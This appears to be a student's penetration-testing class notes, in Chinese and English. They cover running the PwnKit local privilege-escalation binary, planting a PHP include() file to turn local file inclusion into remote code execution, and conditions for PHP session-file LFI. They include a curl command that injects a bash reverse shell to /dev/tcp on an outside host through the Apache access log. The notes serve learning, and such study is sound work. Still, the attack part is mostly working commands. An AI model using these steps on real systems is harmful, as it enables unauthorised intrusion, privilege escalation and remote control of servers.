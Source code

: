 抓payload近來
    
chmod +x PwnKit32
./PwnKit32
id
![image](images/rJp5w0zDp.png)
※路徑記得去切換到tmp
    
---

### LFI to RCE
    
cd /var/www/html/
echo '<?php phpinfo();?>' > info.php 
echo '<?php include($_GET["file"]));?>' > info.php     

or
    
echo '<?php phpinfo(); ?>' >> /var/www/html/info.php
echo '<?php include($_GET["file"]); ?>' >> /var/www/html/inc.php

chmod -R 775 /var/log/apache2/
    

curl -G http://192.168.0.10/inc.php --data-urlencode "f=/var/log/apache2/access.log" --data-urlencode "1=bash -c 'bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1'"
    
這樣就植入reverse shell了

---
老師補充
https://blog.orange.tw/2018/10/
    
老師的破解法
1. PHP > 5.4
2. Enable File Upload (Default Enabled)
3. Enable File Upload Progress (Default Enabled)
4. Vulnerable to LFI
5. Can include SESSION FILE
  sess_{PHPSESSID}
  PHP_SESSION_UPLOAD_PROGRESS
6. Common Path
/var/lib/php/sessions/
/var/lib/php/session/
/tmp/
/var/lib/php5/
